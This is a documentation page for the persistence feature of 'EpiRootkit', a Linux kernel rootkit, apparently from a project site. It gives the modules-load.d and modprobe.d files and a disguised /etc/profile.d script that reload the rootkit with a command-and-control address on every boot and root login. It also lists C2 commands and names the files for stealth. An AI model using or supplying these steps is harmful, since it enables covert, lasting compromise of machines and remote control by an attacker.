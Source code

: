 ```yaml
---
title: "Persistence"
description: "Automatic rootkit loading across reboots"
icon: "autorenew"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 515
---
```


# Persistence

Two mechanisms for automatic module loading: **modules-load.d** (boot) and **shell profile** (login).

## modules-load.d Method

Creates two files:

**`/etc/modules-load.d/jules_est_bo_system.conf`**:
```bash
# EpiRootkit module
epirootkit
```

**`/etc/modprobe.d/jules_est_bo_modprobe.conf`**:
```bash
# EpiRootkit module parameters
options epirootkit address=192.168.200.11 port=4444
```

## Shell Profile Method

Creates `/etc/profile.d/jules_est_bo_env.sh`:

```bash
#!/bin/bash
# System environment initialization
if [ "$(id -u)" -eq 0 ]; then
    # Check if module is already loaded via proc filesystem
    if [ ! -f /proc/epirootkit_status ] && ! grep -q "^epirootkit " /proc/modules 2>/dev/null; then
        modprobe epirootkit address=192.168.200.11 port=4444 2>/dev/null || insmod /lib/modules/$(uname -r)/extra/epirootkit.ko address=192.168.200.11 port=4444 2>/dev/null
    fi
fi
```

## Commands

```bash
persist                      # Install both methods
persist_remove               # Remove all
status                       # Check status
```

## Testing

```bash
sudo insmod epirootkit.ko address=192.168.200.11 port=4444
# Install persistence via C2/WebUI command: persist
sudo reboot
lsmod | grep epirootkit
```

## Status Response

```json
{
  "persistence": {
    "enabled": true,
    "methods": {
      "modules_load": {
        "active": true, 
        "files": {
          "modules_load": "/etc/modules-load.d/jules_est_bo_system.conf",
          "modprobe": "/etc/modprobe.d/jules_est_bo_modprobe.conf"
        }
      },
      "shell_profile": {
        "active": true, 
        "path": "/etc/profile.d/jules_est_bo_env.sh"
      }
    }
  }
}
```

## File Naming

- **modules-load.d**: Uses `jules_est_bo_` prefix for stealth (matches file hiding pattern)
- **modprobe.d**: Uses `jules_est_bo_` prefix for stealth consistency  
- **profile.d**: Uses `jules_est_bo_` prefix for stealth

**Reliable, standards-compliant persistence with consistent stealth naming.**